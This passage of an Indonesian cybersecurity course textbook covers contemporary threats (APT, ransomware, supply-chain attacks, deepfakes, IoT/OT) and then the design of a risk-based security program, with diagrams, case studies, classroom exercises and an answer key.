    EmergingThreats["Tren Ancaman\nKontemporer"] --> APT3["Advanced Persistent\nThreat (APT)"]
    EmergingThreats --> Ransomware3["Ransomware\nEvolusi & RaaS"]
    EmergingThreats --> SupplyChain3["Supply Chain\nAttacks"]
    EmergingThreats --> AIAttacks["AI-Driven &\nDeepfake Attacks"]
    EmergingThreats --> IoTOT["IoT/OT Security\nChallenges"]
    EmergingThreats --> QuantumThreat["Quantum Threat\n(Harvest Now)"]
    
    APT3 --> APT_Char["Karakteristik:\nNation-State Backing\nLong Dwell Time\nMultiple TTPs\nCustom Malware"]
    APT3 --> APT_Ex["Contoh: APT28, APT41\nLazarus Group\nCozy Bear, Volt Typhoon"]
    
    Ransomware3 --> RaaS2["RaaS Model:\nCore Dev + Affiliates\nDouble/Triple Extortion\nData Leak Site"]
    Ransomware3 --> Prevent["Pencegahan:\nBackup 3-2-1\nEDR\nNetwork Seg"]
    
    SupplyChain3 --> SC_Ex["SolarWinds (SUNBURST)\nXZ Utils (CVE-2024-3094)\nCodecov"]
    
    AIAttacks --> DeepFake["Deepfake:\nCEO Fraud\nVoice Cloning\nSynthetic Identity"]
    AIAttacks --> LLMAttacks["LLM-Assisted:\nPhishing at Scale\nCode Vuln Generation\nAdversarial Prompts"]
```

---

## 3. Pengantar Kontekstual

Lanskap ancaman siber tidak statis — ancaman berevolusi dengan cepat sebagai respons terhadap peningkatan pertahanan, perubahan teknologi, dan insentif finansial/geopolitik. Profesional keamanan siber yang hanya memahami ancaman dari 5 tahun lalu sudah tertinggal.

Tren yang paling signifikan saat ini: APT yang semakin canggih dan sulit dideteksi; ransomware yang berevolusi dari enkripsi sederhana menjadi operasi kriminal terorganisir berskala besar; serangan supply chain yang mengeksploitasi kepercayaan rantai distribusi software; dan ancaman AI yang memungkinkan serangan sosial engineering lebih meyakinkan dan phishing dalam skala yang belum pernah ada sebelumnya.

---

## 4. Landasan Teori

### 4.1 Advanced Persistent Threat (APT)

> **Definisi:** APT adalah kampanye serangan yang panjang, terorganisir, dan beroperasi secara diam-diam, biasanya disponsori oleh nation-state atau aktor dengan sumber daya sangat besar, dengan tujuan spionase, sabotase infrastruktur, atau pencurian kekayaan intelektual.

**Karakteristik APT:**

| Karakteristik | Penjelasan |
|---|---|
| **Advanced** | Menggunakan zero-day exploit, custom malware, teknik anti-forensik canggih |
| **Persistent** | Mempertahankan akses dalam jaringan target selama berbulan-bulan atau bertahun-tahun |
| **Threat** | Tujuan aktif: pencurian data strategis, sabotase infrastruktur, atau posisi prepositioning untuk serangan masa depan |
| **Nation-state backing** | Didukung oleh intelijen atau militer negara — sumber daya hampir tidak terbatas |

**Dwell Time APT:**
Rata-rata *dwell time* APT (waktu antara initial compromise hingga deteksi) adalah ratusan hari. Beberapa APT berhasil tidak terdeteksi selama lebih dari 3 tahun (SolarWinds: 14 bulan).

**Contoh APT Signifikan:**

| Grup | Negara Asal | Aktivitas Utama | Contoh Operasi |
|---|---|---|---|
| APT28 (Fancy Bear) | Rusia | Spionase politik, militer, media | DNC hack 2016; WADA database |
| APT41 | China | Dual-purpose: spionase + cybercrime | Pencurian IP, supply chain attack pada game |
| Lazarus Group | Korea Utara | Pencurian finansial, sabotase | Sony Pictures; Bangladesh Bank Heist; crypto theft |
| Volt Typhoon | China | Prepositioning di infrastruktur kritis AS | Utilitas listrik, air, telekomunikasi |

**Implikasi untuk Indonesia:**
Indonesia sebagai negara G20 dengan ekonomi berkembang pesat dan industri strategis (energi, pertambangan, keuangan) adalah target menarik untuk APT yang mencari intelijen ekonomi dan posisi geopolitik.

### 4.2 Ransomware Modern

**Evolusi Ransomware:**

| Generasi | Karakteristik | Contoh |
|---|---|---|
| Gen 1 (2013-2015) | Enkripsi file; dekripsi setelah bayar; CryptoLocker model | CryptoLocker, CryptoWall |
| Gen 2 (2016-2018) | Worm propagation; jaringan enterprise; GandCrab-style | WannaCry, NotPetya, Ryuk |
| Gen 3 — Double Extortion (2019+) | Enkripsi + exfiltrasi; ancam publikasi data | Maze, REvil, DarkSide |
| Gen 4 — Triple Extortion (2021+) | Tambah DDoS; hubungi pelanggan/partner; tekanan berlipat | BlackCat/ALPHV, LockBit 3.0 |

**Ransomware-as-a-Service (RaaS):**
RaaS adalah model bisnis di mana pengembang ransomware menyewakan malware dan infrastruktur kepada *affiliates* (operator) yang menjalankan serangan aktual. Pembagian keuntungan biasanya 80% untuk afiliasi, 20% untuk core developer.

Implikasi: Serangan ransomware tidak lagi membutuhkan keahlian teknis tinggi. Seseorang dengan kemampuan phishing dasar dapat menjalankan operasi ransomware yang menghasilkan jutaan dolar.

**Strategi Pertahanan Ransomware:**

*3-2-1 Backup Rule:*
- **3** salinan data
- **2** media penyimpanan berbeda
- **1** salinan offsite (termasuk cloud atau lokasi fisik berbeda)
- **+1** salinan offline/air-gapped yang tidak dapat dienkripsi oleh ransomware

*Kontrol Tambahan:*
- EDR dengan behavioral detection untuk mendeteksi proses enkripsi massal yang abnormal
- Segmentasi jaringan untuk membatasi lateral movement
- Backup testing secara berkala — backup tidak berguna jika restore gagal
- Incident response plan yang mencakup skenario ransomware

### 4.3 Supply Chain Attacks

Serangan supply chain mengeksploitasi kepercayaan dalam rantai distribusi software atau hardware — menyerang vendor yang dipercaya target, bukan target secara langsung.

**Kasus SolarWinds (SUNBURST, 2020):**
Penyerang (kemudian diidentifikasi sebagai SVR/Cozy Bear Russia) menyisipkan backdoor ke dalam proses build SolarWinds Orion. Ketika update sah dikirim ke pelanggan, backdoor ikut terdistribusi. ~18.000 organisasi menginstal update yang terkontaminasi; ~100 organisasi kemudian dieksploitasi secara aktif — termasuk beberapa lembaga pemerintah AS.

**Kasus XZ Utils (CVE-2024-3094):**
Penyerang, menggunakan identitas palsu "Jia Tan", membangun kepercayaan sebagai maintainer open-source XZ Utils selama ~2 tahun. Kemudian menyisipkan backdoor yang dapat memberikan akses tidak sah ke sistem Linux melalui SSH. Terdeteksi secara kebetulan oleh developer Microsoft Andres Freund sebelum menyebar luas.

**Mengapa Supply Chain Attack Sulit Dideteksi:**
- Code datang dari vendor tepercaya yang legitimasinya tidak dipertanyakan
- Backdoor sering hanya aktif dalam kondisi tertentu (target spesifik, waktu tertentu)
- Tanda tangan digital yang valid memberi kesan legitimasi

**Pertahanan:**
- Software Bill of Materials (SBOM): Daftar lengkap semua komponen software dan dependensinya
- Verifikasi integritas software: Periksa hash/signature sebelum menginstal update
- Supply chain security framework: SLSA (Supply-chain Levels for Software Artifacts)
- Segmentasi jaringan untuk membatasi blast radius jika vendor dikompromikan

### 4.4 AI-Driven Attacks dan Deepfake

**Phishing dengan AI:**
LLM (Large Language Model) memungkinkan pembuatan email phishing yang lebih meyakinkan dalam skala besar:
- Tidak ada typo atau grammar error yang biasanya mengidentifikasi phishing
- Email dipersonalisasi berdasarkan informasi publik target (LinkedIn, media sosial)
- Tone dan gaya penulisan dapat disesuaikan dengan gaya komunikasi organisasi target
- Dapat dibuat dalam bahasa apapun dengan fluency tinggi

**Voice Cloning dan Deepfake Video:**
Dengan rekaman suara beberapa detik, AI dapat mengkloning suara seseorang dengan akurasi tinggi. Deepfake video memungkinkan pembuatan video "seseorang mengatakan sesuatu" yang tidak pernah terjadi.

*Kasus nyata:* Pada 2024, karyawan keuangan perusahaan Hong Kong mentransfer USD 25 juta setelah mengikuti video call yang terlihat seperti CFO dan kolega perusahaan — semua peserta adalah deepfake real-time.

**Adversarial ML:**
Penyerang dapat membuat *adversarial examples* — input yang sengaja dimodifikasi untuk mengelabui model ML:
- Gambar yang terlihat normal bagi manusia tetapi diklasifikasikan salah oleh model computer vision
- Teks yang diklasifikasikan sebagai "aman" oleh filter spam/malware tetapi berisi payload berbahaya
- Prompt injection pada LLM yang digunakan sebagai komponen sistem keamanan

**Mitigasi:**
- Multi-factor verification untuk transfer besar atau keputusan kritis — jangan bergantung pada visual/suara saja
- Out-of-band verification: Konfirmasi melalui saluran yang berbeda (telepon ke nomor yang sudah diketahui, bukan yang diterima di email)
- Deepfake detection tools (masih berkembang, tidak 100% akurat)
- Security awareness training yang mencakup ancaman deepfake

### 4.5 Keamanan IoT dan OT

**Tantangan Keamanan IoT:**

| Karakteristik IoT | Implikasi Keamanan |
|---|---|
| Sumber daya terbatas (CPU, RAM) | Tidak dapat menjalankan agen keamanan berat; sulit mengimplementasikan enkripsi penuh |
| Long deployment lifetime (10-20 tahun) | Vendor mungkin tidak menyediakan patch; OS/firmware obsolete |
| Connectivity | Attack surface sangat luas; banyak device menggunakan protokol tidak aman (Telnet, HTTP) |
| Default credentials | Banyak device di-ship dengan username/password default yang tidak diubah |
| Masif dan tersebar | Sulit melakukan inventory dan patching dalam skala besar |
| Low visibility | Sulit mendeteksi kompromi karena minimnya logging |

**OT (Operational Technology) Security:**
OT mencakup sistem yang mengontrol proses fisik: ICS (Industrial Control System), SCADA (Supervisory Control and Data Acquisition), PLC (Programmable Logic Controller). Digunakan di pembangkit listrik, kilang minyak, pabrik, sistem air, dan transportasi.

**Perbedaan Kritis IT vs OT:**

| Aspek | IT | OT |
|---|---|---|
| **Prioritas** | Confidentiality > Availability | **Availability > Safety > Confidentiality** |
| **Downtime** | Tolerable untuk patching | Tidak tolerabel — downtime = kehilangan produksi atau bahaya fisik |
| **Patching** | Rutin dan cepat | Sangat jarang; memerlukan jendela maintenance khusus; sering tidak bisa di-patch sama sekali |
| **Protokol** | IP-based, standar | Protokol proprietary (Modbus, DNP3, Profibus); banyak yang tidak dirancang dengan keamanan |
| **Dampak kompromi** | Kebocoran data, gangguan layanan | Kerusakan fisik, bencana, korban jiwa |

**Kasus: Serangan Infrastruktur Kritis:**
- *Stuxnet (2010)*: Worm yang secara spesifik menargetkan centrifuge uranium Iran melalui PLC Siemens
- *Ukraine Power Grid (2015-2016)*: Serangan yang mematikan listrik untuk ~230.000 pelanggan
- *Oldsmar Water Treatment (2021)*: Penyerang meningkatkan kadar sodium hidroksida ke level berbahaya; operator manusia mencegat perubahan

---

## 5. Model atau Arsitektur

### 5.1 APT Operation Lifecycle (Extended Kill Chain)

```mermaid
flowchart LR
    R1["1. Reconnaissance\nOSINT, scanning, spearphishing prep"] 
    R2["2. Resource Development\nInfrastruktur C2, malware kustom"]
    R3["3. Initial Access\nSpearphishing, supply chain, 0-day"]
    R4["4. Execution\nPowerShell, Living-off-the-Land"]
    R5["5. Persistence\nRegistry, scheduled task, implant"]
    R6["6. Defense Evasion\nProcess injection, log clearing"]
    R7["7. Credential Access\nMimikatz, DCSync, LSASS dump"]
    R8["8. Discovery\nActive Directory recon, port scanning"]
    R9["9. Lateral Movement\nPsExec, WMI, Pass-the-Hash"]
    R10["10. Collection\nData staging, exfiltration prep"]
    R11["11. C2\nBeacon, HTTPS/DNS tunneling"]
    R12["12. Exfiltration\nSmall chunks via encrypted channel"]
    
    R1 --> R2 --> R3 --> R4 --> R5
    R5 --> R6 --> R7 --> R8 --> R9 --> R10
    R10 --> R11 --> R12
    R11 -.->|"Persistent\ncontrol"| R5
    
    style R3 fill:#b71c1c,color:#fff
    style R12 fill:#880e4f,color:#fff
```

---

## 6. Contoh Terapan

### Studi Kasus: Analisis Ransomware Incident di Rumah Sakit

**Insiden:** Sistem IT sebuah rumah sakit besar di Jawa diserang ransomware pada Sabtu dini hari. Senin pagi, seluruh sistem RME, PACS radiologi, dan sistem penjadwalan tidak dapat diakses. Catatan penyerang menyebutkan: enkripsi 2,3 TB data; data telah dieksfiltrasi dan akan dipublikasi jika tidak ada pembayaran dalam 72 jam.

**Timeline Investigasi:**
- T-35 hari: Email phishing ke akuntan yang mengunduh attachment "Tagihan.xls.exe"
- T-34 hari: Backdoor terinstal; beaconing ke C2 server
- T-7 hari: Penyerang mulai bergerak lateral menggunakan credential domain yang dicuri
- T-1 hari: Staged data exfiltrasi melalui tool rclone ke cloud storage
- T-0 (Sabtu 02.00): Deployment ransomware serentak di seluruh jaringan

**Kontrol yang Gagal:**
- Tidak ada EDR — backdoor berjalan tidak terdeteksi 35 hari
- Jaringan flat — lateral movement bebas hambatan
- Domain admin credentials disimpan di file teks di desktop (!)
- Backup terhubung ke domain network — ikut terenkripsi
- Tidak ada monitoring untuk penggunaan rclone atau exfiltrasi data besar

**Kontrol yang Seharusnya Ada:**
- EDR → deteksi behavioral anomaly dari macro XLS yang launch PowerShell
- Segmentasi → membatasi lateral movement
- Backup air-gapped → RTO/RPO terpenuhi tanpa harus bayar tebusan
- DLP → alert untuk exfiltrasi 2,3 TB data
- Privilege monitoring → alert untuk credential dump

---

## 7. Praktikum — Analisis Insiden Ransomware dari Artefak

**Tujuan:** Melatih kemampuan menganalisis timeline serangan dan mengidentifikasi kontrol yang gagal.

**Tugas:** Diberikan log sistem Windows (Event Log excerpts), network flow data, dan timeline insiden ransomware simulasi. Rekonstruksi timeline serangan; identifikasi initial vector; identifikasi teknik lateral movement; evaluasi kontrol yang seharusnya mendeteksi setiap tahap.

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** "Double extortion" dalam ransomware modern berarti:
A. Menyerang dua kali dalam waktu berbeda  
B. Mengenkripsi data DAN mengancam mempublikasikan data yang dieksfiltrasi  
C. Menuntut pembayaran dari dua pihak berbeda  
D. Mengenkripsi backup sekaligus data produksi

**Soal 2 (PG):** Perbedaan utama keamanan OT dibandingkan IT tradisional adalah:
A. OT menggunakan teknologi lebih modern  
B. OT memprioritaskan Availability dan Safety di atas Confidentiality  
C. OT tidak memerlukan patch management  
D. OT tidak terhubung ke internet sehingga lebih aman

**Soal 3 (Esai):** Jelaskan mengapa serangan supply chain seperti SolarWinds sangat berbahaya dan sulit dideteksi dibandingkan serangan langsung terhadap target.

**Soal 4:** Seorang CFO menerima video call dari tampilan CEO yang meminta transfer darurat Rp 5 miliar ke rekening supplier baru. Identifikasi red flag dalam skenario ini, dan prosedur verifikasi apa yang seharusnya diikuti sebelum melakukan transfer?

**Soal 5 (Analisis):** APT group (nation-state) telah memiliki akses ke jaringan perusahaan energi Indonesia selama 8 bulan tanpa terdeteksi. Mengapa aktor APT mungkin memilih untuk "tidak melakukan apa-apa" selama periode ini, dan apa yang sebenarnya sedang mereka lakukan?

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Dampak AI-Driven Social Engineering pada Institusi Keuangan

Sebuah bank besar Indonesia mulai menerima laporan dari nasabah korporat bahwa mereka mendapat telepon dari "pejabat bank" yang suaranya sangat mirip dengan relationship manager mereka, meminta konfirmasi data akun untuk "pembaruan sistem." Beberapa nasabah memberikan kode OTP yang kemudian digunakan untuk transaksi tidak sah.

**Pertanyaan:**
1. **Analisis Ancaman (C4)**: Analisis skenario ini dari perspektif teknis dan taktis. Teknologi apa yang kemungkinan digunakan penyerang? Bagaimana penyerang mendapatkan sampel suara relationship manager? Apa yang membuat serangan ini lebih efektif dari vishing konvensional?

2. **Rekomendasi Pertahanan (C5)**: Rancang program pertahanan komprehensif untuk bank ini yang mencakup: deteksi teknis, prosedur verifikasi baru, pelatihan nasabah korporat, dan revisi kebijakan komunikasi bank. Pertimbangkan bahwa solusi yang terlalu membebani nasabah akan berdampak pada customer experience.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — B:** Double extortion = enkripsi data + ancam publikasi data yang sudah dieksfiltrasi. Triple extortion menambah elemen ketiga: DDoS atau menghubungi mitra/nasabah korban secara langsung. Istilah ini merujuk pada jumlah cara penyerang menekan korban, bukan jumlah serangan atau pihak.

**Soal 2 — B:** OT (Operational Technology) memprioritaskan ketersediaan dan keselamatan fisik di atas kerahasiaan. Downtime sistem OT dapat berarti kecelakaan industri, bencana lingkungan, atau korban jiwa. Ini berbanding terbalik dengan IT tradisional. Pilihan C salah karena OT membutuhkan patch, tetapi proses patching-nya jauh lebih kompleks. Pilihan D adalah misconception berbahaya — air-gap OT pun dapat dikompromikan via USB (Stuxnet).

**Soal 3:** Supply chain attack seperti SolarWinds berbahaya karena: (a) Backdoor datang sebagai update resmi yang ditandatangani secara digital — melewati semua verifikasi integritas; (b) Sumber kompromi adalah vendor yang dipercaya, bukan malware yang datang dari luar; (c) Satu kompromi vendor dapat memengaruhi ribuan pelanggan sekaligus; (d) Penyerang dapat memilih target spesifik dari pool besar yang terinfeksi, sehingga aktivitas terlihat minimal dan tidak mencurigakan.

---

## 11. Ringkasan Bab

Ancaman siber kontemporer jauh lebih canggih, terorganisir, dan berdampak lebih luas dari sebelumnya. APT nation-state beroperasi dengan dwell time ratusan hari; ransomware modern mengombinasikan enkripsi, exfiltrasi, dan tekanan psikologis dalam model bisnis RaaS yang terorganisir; supply chain attacks mengeksploitasi kepercayaan mendasar dalam ekosistem software; AI memampukan social engineering yang lebih meyakinkan dan skala yang jauh lebih besar.

Respons defensif harus berevolusi dengan cepat: behavioral detection, threat intelligence, segmentasi, backup yang terisolasi, dan budaya verifikasi yang kuat menjadi semakin kritis.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** Banyak serangan ransomware menargetkan rumah sakit, sekolah, dan infrastruktur publik yang anggaran keamanannya terbatas. Beberapa negara sedang mendiskusikan larangan pembayaran tebusan ransomware untuk menghilangkan insentif finansial penyerang. Dari perspektif etika dan kebijakan publik, apa argumen untuk dan melawan larangan pembayaran tebusan ini?

**Pertanyaan Refleksi 2:** Pengembangan deepfake dan voice cloning yang semakin canggih mengancam fondasi kepercayaan dalam komunikasi digital. Jika "melihat" dan "mendengar" tidak lagi bisa dipercaya, implikasi apa yang ditimbulkan bagi: proses hukum yang mengandalkan bukti video/audio; keamanan perbankan berbasis identifikasi suara; dan kepercayaan publik terhadap informasi media secara umum?

---


---

# BAB 16 — INTEGRASI KOMPREHENSIF: MEMBANGUN PROGRAM KEAMANAN SIBER BERBASIS RISIKO

**Pertemuan:** 16 (UAS)  
**Sub-CPMK:** Sub-CPMK.6  
**CPMK:** CPMK.1 s.d. CPMK.5 (Terintegrasi)  
**Evaluasi:** Eval-6 UAS (30%)

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 16, mahasiswa mampu:

- Mengintegrasikan seluruh konsep yang dipelajari dalam mata kuliah (CIA Triad, framework, risk management, kontrol, ancaman, kriptografi, cloud, dan tren) menjadi satu pemahaman yang koheren.
- Merancang program keamanan siber berbasis risiko yang komprehensif untuk sebuah organisasi.
- Mengevaluasi postur keamanan organisasi dan mengidentifikasi prioritas perbaikan.
- Menyusun rekomendasi yang dapat dipertanggungjawabkan secara teknis, manajerial, hukum, dan etis.
- Mempersiapkan mini risk assessment sebagai demonstrasi kompetensi akhir.

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    Integration["Integrasi\nKomprehensif\nProgram Keamanan\nBerbasis Risiko"] --> Layer1["Layer 1: Fondasi\nCIA Triad, AAA\nPrinsip Keamanan\n(Bab 1-2)"]
    Integration --> Layer2["Layer 2: Ancaman\nThreat Landscape\nATT&CK, Kill Chain\n(Bab 3-6)"]
    Integration --> Layer3["Layer 3: Framework\nNIST CSF v2.0\nISO 27001/27002\nGap Analysis\n(Bab 7-10)"]
    Integration --> Layer4["Layer 4: Operasional\nRisk Assessment\nArsitektur Jaringan\nHardening Endpoint\n(Bab 11-12)"]
    Integration --> Layer5["Layer 5: Teknologi\nKriptografi\nCloud Security\n(Bab 13-14)"]
    Integration --> Layer6["Layer 6: Intelijen\nTren Ancaman\nAPT, Ransomware\nAI-driven\n(Bab 15)"]
    
    Integration --> Output["Output Program Keamanan"]
    Output --> Govern["Governance:\nKebijakan, Komitmen\nManajemen, Akuntabilitas"]
    Output --> Tech["Kontrol Teknis:\nFirewall, EDR, Enkripsi\nIAM, SIEM, DLP"]
    Output --> Process["Proses:\nRisk Assessment\nIncident Response\nPatch Management"]
    Output --> People["SDM:\nAwareness Training\nKompetensi Tim\nBudaya Keamanan"]
```

---

## 3. Pengantar Kontekstual

Bab 16 adalah puncak dari perjalanan 15 bab sebelumnya. Di sinilah semua konsep — dari CIA Triad yang fundamental hingga deepfake AI yang canggih — terintegrasi menjadi gambaran utuh tentang apa artinya membangun dan mengelola program keamanan siber yang efektif.

Kenyataannya, tidak ada "solusi tunggal" untuk keamanan siber. Tidak ada produk, framework, atau standar yang dapat dibeli dan langsung memberikan keamanan. Keamanan adalah proses yang berkelanjutan — sebuah perjalanan, bukan destinasi. Program keamanan yang efektif adalah yang seimbang antara dimensi teknologi, proses, manusia, dan tata kelola; yang berbasis pada pemahaman mendalam tentang risiko spesifik organisasi; dan yang terus beradaptasi dengan evolusi ancaman.

---

## 4. Landasan Teori

### 4.1 Model Integrasi: Program Keamanan Berbasis Risiko

Program keamanan siber yang komprehensif dan berbasis risiko menggabungkan empat dimensi yang saling bergantung:

**Dimensi 1: Tata Kelola (Governance)**
- Komitmen dan keterlibatan manajemen puncak
- Kebijakan keamanan informasi yang terdokumentasi dan dikomunikasikan
- Struktur tanggung jawab yang jelas (CISO, security team, business owner)
- Kepatuhan terhadap regulasi yang berlaku (UU PDP, OJK, BSSN)
- Pelaporan metrik keamanan kepada board/direksi secara berkala

**Dimensi 2: Risiko (Risk)**
- Risk assessment yang diperbarui secara berkala (minimum tahunan atau ketika ada perubahan signifikan)
- Risk register yang dikelola secara aktif
- Risk appetite yang didefinisikan dan dikomunikasikan
- Risk treatment plan dengan pemilik dan target waktu yang jelas

**Dimensi 3: Kontrol (Controls)**
- Kontrol preventif, detective, dan corrective yang seimbang
- Kontrol teknis (firewall, EDR, enkripsi, IAM, SIEM, DLP)
- Kontrol administratif (kebijakan, prosedur, pelatihan)
- Kontrol fisik (akses fisik, CCTV, clear desk)
- Penilaian efektivitas kontrol secara berkala

**Dimensi 4: Kesiapsiagaan (Resilience)**
- Incident Response Plan yang terlatih dan diuji
- Business Continuity Plan
- Disaster Recovery Plan dengan RTO/RPO yang terdefinisi
- Tabletop exercise dan red/blue team exercise berkala

### 4.2 Prinsip-Prinsip Pembangun Program Keamanan

**Risk-Based Approach:**
Tidak semua aset sama pentingnya; tidak semua ancaman sama risikonya. Alokasikan sumber daya berdasarkan risiko aktual, bukan berdasarkan tren produk keamanan terbaru atau ketakutan reaktif.

**Defense-in-Depth:**
Tidak ada kontrol tunggal yang 100% efektif. Asumsi bahwa setiap lapisan akan ditembus, dan lapisan berikutnya harus siap.

**Least Privilege:**
Berikan hak akses minimum yang diperlukan untuk setiap fungsi. Terapkan di semua level: user, aplikasi, layanan, cloud resource.

**Assume Breach:**
Desain sistem dengan asumsi bahwa penyerang sudah ada di dalam. Fokus pada deteksi, respons, dan pemulihan — bukan hanya pencegahan.

**Security as Enabler:**
Keamanan yang baik memungkinkan bisnis beroperasi dengan percaya diri, bukan menghambatnya. CISO yang efektif adalah partner bisnis, bukan polisi keamanan.

### 4.3 Metrik Keamanan yang Bermakna

Program keamanan yang matang menggunakan metrik untuk mengukur efektivitas dan mengkomunikasikan nilai keamanan kepada manajemen.

**Contoh Metrik Keamanan:**

| Kategori | Metrik | Mengukur Apa |
|---|---|---|
| Vulnerability Management | % aset di-patch dalam SLA | Kecepatan respons terhadap kerentanan baru |
| Incident Response | Mean Time to Detect (MTTD) | Seberapa cepat insiden terdeteksi |
| Incident Response | Mean Time to Respond (MTTR) | Seberapa cepat insiden ditangani |
| Access Management | % akun dengan MFA aktif | Coverage kontrol autentikasi kuat |
| Awareness | % karyawan click phishing simulation | Efektivitas pelatihan security awareness |
| Risk | Jumlah High/Critical risk open >30 hari | Backlog risiko tinggi yang belum dimitigasi |
| Compliance | % kontrol ISO 27001 diimplementasikan | Progress implementasi ISMS |

### 4.4 Mempersiapkan Mini Risk Assessment UAS

Untuk Ujian Akhir Semester, mahasiswa akan melakukan mini risk assessment untuk skenario organisasi yang diberikan. Berikut adalah template dan ekspektasi:

**Struktur Mini Risk Assessment UAS:**

1. **Konteks Organisasi** (10%)
   - Profil organisasi: industri, ukuran, layanan utama
   - Aset informasi kritis: identifikasi dan kategorisasi
   - Pemangku kepentingan dan kebutuhan keamanan mereka
   - Regulasi yang berlaku

2. **Risk Assessment** (30%)
   - Identifikasi minimum 8 risiko menggunakan format: Aset → Ancaman → Kerentanan → Dampak CIA → Likelihood → Risk Level
   - Perhitungan ALE untuk 3 risiko tertinggi (gunakan asumsi yang realistis dan didokumentasikan)
   - Risk matrix visual

3. **Mapping ke Framework** (20%)
   - Pemetaan 5 risiko teridentifikasi ke NIST CSF v2.0 (fungsi mana yang perlu ditingkatkan)
   - Pemetaan 5 kontrol rekomendasi ke ISO 27002:2022 (klausul mana yang diimplementasikan)

4. **Risk Treatment Plan** (25%)
   - Rekomendasi kontrol untuk 5 risiko tertinggi
   - Justifikasi pilihan treatment (Mitigate/Transfer/Avoid/Accept)
   - Prioritasi implementasi (quick win vs long-term)
   - Estimasi biaya dan manfaat

5. **Executive Summary** (15%)
   - Ringkasan postur keamanan saat ini
   - Top 3 prioritas perbaikan
   - Rekomendasi anggaran
   - Metrik keberhasilan

---

## 5. Model atau Arsitektur

### 5.1 Program Keamanan Maturity Model

```mermaid
flowchart TD
    subgraph Level1["Level 1: Initial/Ad-hoc"]
        L1["Tidak ada kebijakan formal\nRespons reaktif terhadap insiden\nTidak ada risk management\nKeamanan = IT problem"]
    end
    
    subgraph Level2["Level 2: Managed"]
        L2["Kebijakan dasar ada\nRisk assessment sporadis\nKontrol dasar diimplementasikan\nTim keamanan dedicated"]
    end
    
    subgraph Level3["Level 3: Defined"]
        L3["Program keamanan terdokumentasi\nRisk management sistematis\nISMS/NIST CSF diterapkan\nMetrik keamanan diukur"]
    end
    
    subgraph Level4["Level 4: Quantitatively Managed"]
        L4["Keputusan berbasis data\nALE digunakan untuk investasi\nKPI keamanan di-track\nAudit internal reguler"]
    end
    
    subgraph Level5["Level 5: Optimizing"]
        L5["Continuous improvement\nThreat intelligence driven\nAdaptif terhadap emerging threats\nKeamanan = business enabler"]
    end
    
    Level1 --> Level2 --> Level3 --> Level4 --> Level5
    
    style Level1 fill:#c62828,color:#fff
    style Level2 fill:#e65100,color:#fff
    style Level3 fill:#f9a825,color:#000
    style Level4 fill:#2e7d32,color:#fff
    style Level5 fill:#1565c0,color:#fff
```

---

## 6. Contoh Terapan

### Studi Kasus Komprehensif: Program Keamanan Startup Fintech

**Latar Belakang:** StartFin adalah startup fintech Indonesia yang menyediakan layanan pinjaman peer-to-peer. 150 karyawan, 200.000 pengguna aktif, diregulasi oleh OJK. Sistem utama: platform pinjaman (cloud), aplikasi mobile (iOS/Android), sistem anti-fraud (ML-based), dan data warehouse untuk analitik.

**Kondisi Saat Ini (Maturity Level 1.5):**
- Tidak ada CISO; keamanan dikelola sampingan oleh CTO
- Tidak ada kebijakan keamanan formal
- Satu insiden tahun lalu: API key ter-commit ke GitHub publik, berhasil dideteksi dan dicabut dalam 2 jam
- Tidak ada risk assessment formal
- Kontrol yang ada: HTTPS, cloud standard security, antivirus dasar

**Program 18-Bulan Menuju Maturity Level 3:**

*Kuartal 1-2: Fondasi*
- Rekrut CISO atau gunakan vCISO (virtual CISO)
- Lakukan risk assessment komprehensif
- Tetapkan Information Security Policy
- Implementasikan IAM di cloud: MFA untuk semua, review hak akses
- Aktivasi CloudTrail + GuardDuty

*Kuartal 3-4: Kontrol Kritis*
- Deploy EDR ke semua endpoint
- Implementasikan DLP untuk data pengguna
- Mulai patch management sistematis (SLA: critical dalam 72 jam)
- Security awareness training untuk seluruh karyawan
- SIEM implementation (mulai dengan managed SIEM untuk efisiensi)

*Kuartal 5-6: Maturation*
- Persiapan menuju ISO 27001 (gap analysis → implementasi → sertifikasi)
- Implementasikan Incident Response Plan dan lakukan tabletop exercise
- Penetration testing tahunan oleh pihak ketiga
- Supplier security assessment untuk vendor kritis

**Metrik Target Setelah 18 Bulan:**
- MTTD: < 1 hari (dari tidak terukur)
- Patch dalam SLA: > 90%
- MFA coverage: 100% akun admin
- Phishing click rate: < 10% (dari tidak diukur)

---

## 7. Praktikum / Aktivitas UAS

### Praktikum 16.1: Mini Risk Assessment (Tugas UAS)

**Tujuan:** Mendemonstrasikan integrasi seluruh kompetensi mata kuliah melalui risk assessment komprehensif.

**Skenario:** Diberikan oleh dosen pada saat UAS — berupa profil organisasi yang belum pernah dibahas sebelumnya (rumah sakit, bank, instansi pemerintah, atau infrastruktur kritis).

**Deliverable:**
1. Dokumen Risk Assessment (max 20 halaman, tidak termasuk lampiran)
2. Risk Register (format Excel atau tabel)
3. Presentasi executive summary (5 menit)

**Rubrik Penilaian:**
- Ketepatan identifikasi aset dan risiko (25%)
- Kualitas analisis risiko dan justifikasi (30%)
- Kualitas rekomendasi dan treatment plan (25%)
- Keterkaitan dengan framework (NIST CSF, ISO 27001/27002) (10%)
- Kualitas komunikasi dan presentasi (10%)

---

## 8. Latihan Pemahaman — Review Komprehensif

**Soal 1 (PG):** Prinsip keamanan yang menyatakan "desain sistem dengan asumsi bahwa penyerang sudah ada di dalam" adalah:
A. Defense-in-Depth   B. Least Privilege   C. Assume Breach   D. Zero Trust

**Soal 2 (PG):** Mean Time to Detect (MTTD) mengukur:
A. Rata-rata waktu untuk memulihkan sistem setelah insiden
B. Rata-rata waktu antara insiden terjadi dan saat insiden terdeteksi
C. Waktu rata-rata untuk merespons insiden setelah terdeteksi
D. Waktu rata-rata untuk mendeploy patch keamanan

**Soal 3 (Esai):** Jelaskan bagaimana CIA Triad, NIST CSF, ISO 27001, dan Risk Management saling berkaitan dalam membangun program keamanan siber yang komprehensif. Gunakan diagram atau analogi untuk memperjelas hubungan tersebut.

